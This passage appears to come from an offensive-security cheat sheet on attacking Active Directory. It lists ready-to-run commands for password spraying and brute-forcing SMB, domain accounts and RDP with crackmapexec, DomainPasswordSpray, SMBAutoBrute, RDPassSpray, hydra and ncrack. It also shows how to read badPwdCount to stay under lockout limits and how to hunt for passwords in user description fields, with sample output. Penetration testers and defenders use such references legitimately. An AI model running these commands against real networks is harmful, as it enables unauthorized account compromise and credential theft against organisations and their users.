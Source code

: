 #### Spray a pre-generated passwords list

* Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.
  ```powershell
  crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
  ```
* Using `DomainPasswordSpray` to spray a password against all users of a domain.
  ```powershell
  # https://github.com/dafthack/DomainPasswordSpray
  Invoke-DomainPasswordSpray -Password Summer2021!
  # /!\ be careful with the account lockout !
  Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
  ```
* Using `SMBAutoBrute`.
  ```powershell
  Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
  ```

#### Spray passwords against the RDP service

* Using [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) to target RDP services.
  ```powershell
  git clone https://github.com/xFreed0m/RDPassSpray
  python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
  ```
* Using [hydra](https://github.com/vanhauser-thc/thc-hydra) and [ncrack](https://github.com/nmap/ncrack) to target RDP services.
  ```powershell
  hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
  ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
  ```

#### BadPwdCount attribute

> The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.

```powershell
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```


### Password in AD User comment

```powershell
$ crackmapexec ldap domain.lab -u 'username' -p 'password' -M user-desc
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 -M get-desc-users
GET-DESC... 10.0.2.11       389    dc01    [+] Found following users: 
GET-DESC... 10.0.2.11       389    dc01    User: Guest description: Built-in account for guest access to the computer/domain
GET-DESC... 10.0.2.11       389    dc01    User: krbtgt description: Key Distribution Center Service Account
```
